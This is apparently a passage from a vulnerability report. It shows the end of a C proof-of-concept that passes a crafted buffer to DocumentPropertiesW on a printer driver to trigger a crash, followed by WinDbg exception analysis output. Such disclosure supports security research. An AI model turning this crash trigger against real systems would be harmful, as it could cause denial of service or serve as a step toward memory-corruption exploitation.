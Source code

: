 ```c
    }
    memset(outBuf, 0xCC, outBufSize);

    printf("calling DocumentPropertiesW() with dmDriverExtra = 0x%lx, outBuf = %lu bytes\n", extra, outBufSize);
    LONG r = DocumentPropertiesW(NULL, hPrinter, printerName, (PDEVMODEW)outBuf, pIn, DM_OUT_BUFFER | DM_IN_BUFFER);

    if (r == IDOK) {
        printf("DocumentPropertiesW returned: %ld\n", r);
    } else {
        printf("DocumentPropertiesW failed with:  %lu\n", GetLastError());
    }

    free(outBuf);
    ClosePrinter(hPrinter);
    return 0;
}
```

### B - WinDbg output

```
0:000> !analyze -v
.........................
*******************************************************************************
*                                                                             *
*                        Exception Analysis                                   *
*                                                                             *
*******************************************************************************

*** WARNING: Check Image - Checksum mismatch - Dump: 0x1f3b32, File: 0x1fd444 - C:\ProgramData\Dbg\sym\ntdll.dll\D1CD38081F8000\ntdll.dll
Unable to load image \\VBOXSVR\advantech\crash_min.exe, Win32 error 0n2

KEY_VALUES_STRING: 1

    Key  : Analysis.CPU.mSec
    Value: 1015

    Key  : Analysis.Elapsed.mSec
    Value: 32828

    Key  : Analysis.IO.Other.Mb
    Value: 0

    Key  : Analysis.IO.Read.Mb
    Value: 1

    Key  : Analysis.IO.Write.Mb
    Value: 0

    Key  : Analysis.Init.CPU.mSec
    Value: 781

    Key  : Analysis.Init.Elapsed.mSec
    Value: 45351

    Key  : Analysis.Memory.CommitPeak.Mb
    Value: 83

    Key  : Analysis.Version.DbgEng
    Value: 10.0.27871.1001
```